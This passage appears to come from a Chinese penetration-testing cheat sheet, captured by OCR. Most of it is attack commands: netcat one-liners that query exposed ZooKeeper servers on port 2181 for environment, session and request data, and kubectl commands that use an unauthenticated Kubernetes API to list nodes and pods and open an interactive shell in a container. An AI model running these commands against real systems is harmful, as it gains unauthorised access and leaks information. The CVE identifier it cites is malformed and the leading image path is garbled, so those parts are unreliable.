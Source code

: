 - 利用
    ```bash
    echo envi|nc <ip> 2181      # 打印有关服务环境的详细信息
    echo dump |ncat <ip> 2181   # 列出未完成的会话和临时节点
    echo reqs |ncat <ip> 2181   # 列出未完成的请求
    echo ruok |ncat <ip> 2181   # 测试服务器是否运行在非错误状态
    echo stat |ncat <ip> 2181   # 列出关于性能和连接的客户端的统计信息

    ./zkCli.sh -server <ip>:port
    ```
    ```bash
    # 获得所有节点
    kubectl -s http://1.2.3.4:8080/ get nodes
    # 获得所有容器
    kubectl -s http://1.2.3.4:8080/ get pods --all-namespaces=true
    # 在 myapp 容器获得一个交互式 shell
    kubectl -s http://1.2.3.4:8080/ --namespace=default exec -it myapp bash
    ```

**CVE-2014-085 ZooKeeper 信息泄露漏洞**
- 文章
    - [ZooKeeper信息泄露漏洞(CVE-2014-085)](http://www.voidcn.com/article/p-ebikooyk-oa.html)
